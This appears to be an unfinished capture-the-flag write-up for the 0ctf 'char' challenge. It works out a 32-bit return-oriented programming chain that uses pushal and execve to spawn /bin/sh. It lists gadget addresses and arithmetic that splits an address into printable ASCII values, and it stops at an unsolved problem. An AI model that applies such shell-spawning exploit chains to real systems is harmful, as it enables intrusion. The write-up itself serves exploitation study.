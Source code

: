 ```

execve
```

```
0x5563704c : pushal ; ret
```

I felt like this was not the direction but then I found [this](http://gmiru.com/writeups/0ctf-char/) on the internet...
I don't know if it's cheating.... it's not a perfect solved.
1. calculate the `/bin/sh`
2. put the entire payload on the stack using `pushal` and then jumping to `execve`

### the final chain
```
eax = 0
ecx = 0
edx = &bin/sh
ebx = exeve address
esp = esp
ebp = 
esi = 
edi = pop_3_gadget
``` 

we need to find a way to zero `eax` and `ecx` and to calculate `edx` 
```text
zeros eax
0x555d203e : nop ; nop ; xor eax, eax ; ret

can zero ecx, this should work because zf = 1 -> meaning equal
0x55617a5f : xchg ecx, eax ; mov eax, 0xff ; jne 0xb9a38 ; repz ret

getting edx
0x555f3555 : pop edx ; xor eax, eax ; pop edi ; ret
0x55575069 : add byte ptr [eax], al ; pop eax ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x555f3866 : add edx, eax ; jl 0x958a0 ; add eax, ecx ; ret
```

the [`repz ret`](https://repzret.org/p/repzret/) is  just an optimization made by `gcc`.
`0x556bb7ec` I need to break this to two values that are ascii printable.
the problem here is the `b7` and `ec` `b7` should become smaller then `7f`
`0x38`, `0x6d` are the differences. 
```python
In [18]: hex(0xb7 - 0x7f)
Out[18]: '0x38'

In [19]: hex(0xec - 0x7f)
Out[19]: '0x6d'

In [20]: hex(0x55 - 0x20)
Out[20]: '0x35'

In [21]: hex(0x6b - 0x20)
Out[21]: '0x4b'

In [22]: hex(0x556bb7ec - 0x354b386d)
Out[22]: '0x20207f7f'
```
`0x354b386d`, `0x20207f7f`
nice.
### problem
we cannot add `edx`, `eax` because we cannot control `eax`. so maybe I can subtract? how could this help me if I cannot control `eax`? I can change it with a ROP chain.
```
```